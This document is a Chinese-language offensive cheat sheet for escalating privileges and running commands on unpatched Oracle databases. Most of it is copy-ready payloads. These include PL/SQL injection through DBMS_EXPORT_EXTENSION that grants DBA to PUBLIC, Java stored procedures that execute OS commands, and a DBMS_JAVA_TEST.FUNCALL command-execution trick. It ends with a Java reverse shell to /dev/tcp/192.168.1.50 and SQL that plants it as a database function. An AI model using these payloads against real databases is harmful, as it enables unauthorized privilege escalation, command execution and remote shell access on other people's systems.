### 利用漏洞提权命令执行

#### dbms_export_extension()

- **影响版本：**Oracle 8.1.7.4, 9.2.0.1-9.2.0.7, 10.1.0.2-10.1.0.4, 10.2.0.1-10.2.0.2, XE (Fixed in CPU July 2006)

- **权限：**None

- **详情：**这个软件包有许多易受 PL/SQL 注入攻击的函数。这些函数由 SYS 拥有，作为 SYS 执行并且可由 PUBLIC 执行。因此，如果 SQL 注入处于上述任何未修补的 Oracle 数据库版本中，那么攻击者可以调用该函数并直接执行 SYS 查询。

#### 提升权限

该请求将导致查询 "GRANT DBA TO PUBLIC" 以 SYS 身份执行。因为这个函数允许 PL / SQL 缺陷（PL / SQL 注入）。一旦这个请求成功执行，PUBLIC 获取 DBA 角色，从而提升当前 user 的特权

```sql
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant dba to public'''';END;'';END;--','SYS',0,'1',0) from dual
```

#### 使用Java执行

```sql
# 创建java库
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args){try{BufferedReader myReader= new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"";myReader.close();return str;} catch (Exception e){return e.toString();}}public static String readFile(String filename){try{BufferedReader myReader= new BufferedReader(new FileReader(filename)); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"";myReader.close();return str;} catch (Exception e){return e.toString();}}}'''';END;'';END;--','SYS',0,'1',0) from dual

# 赋予Java权限
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission(''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''',''''''''<>'''''''', ''''''''execute'''''''');end;'''';END;'';END;--','SYS',0,'1',0) from dual

# 创建函数
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name''''''''LinxUtil.runCMD(java.lang.String) return String'''''''';'''';END;'';END;--','SYS',0,'1',0) from dual

# 赋予函数执行权限
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on LinxRunCMD to public'''';END;'';END;--','SYS',0,'1',0) from dual

# 执行系统命令
select sys.LinxRunCMD('/bin/bash -c /usr/bin/whoami') from dual
```

#### dbms_xmlquery.newcontext()

- 影响版本：Oracle 8.1.7.4, 9.2.0.1-9.2.0.7, 10.1.0.2-10.1.0.4, 10.2.0.1-10.2.0.2, XE (Fixed in CPU July 2006)

- 必须在 DBMS_PORT_EXTENSION 存在漏洞情况下，否则赋予权限时无法成功 

```sql
# 创建java库
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;

# 赋予当前用户Java权限
select user from dual
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission(''''''''YY'''''''', ''''''''SYS:java.io.FilePermission'''''''',''''''''<>'''''''', ''''''''execute'''''''');end;'''';END;'';END;--','SYS',0,'1',0) from dual;

# 查看 all_objects 内部改变
select * from all_objects where object_name like '%LINX%' or object_name like '%Linx%'

# 创建函数
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;

# 判断是否创建成功
select OBJECT_ID from all_objects where object_name ='LINXRUNCMD'

# 执行命令
select LinxRunCMD('id') from dual

# 删除函数
drop function LinxRunCMD
```

#### dbms_java_test.funcall()

- 影响版本：10g R2, 11g R1, 11g R2

- 权限：Java Permissions

```sql
Select DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','/bin/bash','-c','pwd > /tmp/pwd.txt') from dual;
执行会有一定报错，但是不影响命令执行
```

### Java反弹shell

```java
# linux系统payload
import java.io.*;
import java.net.*;
public class shellRev
{
        public static void main(String[] args)
        {
                System.out.println(1);
                try{run();}
                catch(Exception e){}
        }
public static void run() throws Exception
        {
                String[] aaa={"/bin/bash","-c","exec 9<> /dev/tcp/192.168.1.50/8080;exec 0<&9;exec 1>&9 2>&1;/bin/sh"};
                Process p=Runtime.getRuntime().exec(aaa);
    }
}

#编译
javac shellRev.java
#执行
java shellRev

```

```sql
# 创建 Java 库
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "shell" as import java.io.*;import java.net.*;public class shell {public static void run() throws Exception{String[] aaa={"/bin/bash","-c","exec 9<> /dev/tcp/127.0.0.1/8080;exec 0<&9;exec 1>&9 2>&1;/bin/sh"};Process p=Runtime.getRuntime().exec(aaa);}}'''';END;'';END;--','SYS',0,'1',0) from dual

# 赋予Java权限
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.net.SocketPermission'''''''', ''''''''<>'''''''', ''''''''*'''''''' );end;'''';END;'';END;--','SYS',0,'1',0) from dual

# 创建函数
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function reversetcp RETURN VARCHAR2 as language java name ''''''''shell.run() return String''''''''; '''';END;'';END;--','SYS',0,'1',0) from dual

# 赋予函数执行权限
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on reversetcp to public'''';END;'';END;--','SYS',0,'1',0) from dual

# 反弹shell
select sys.reversetcp from dual
```
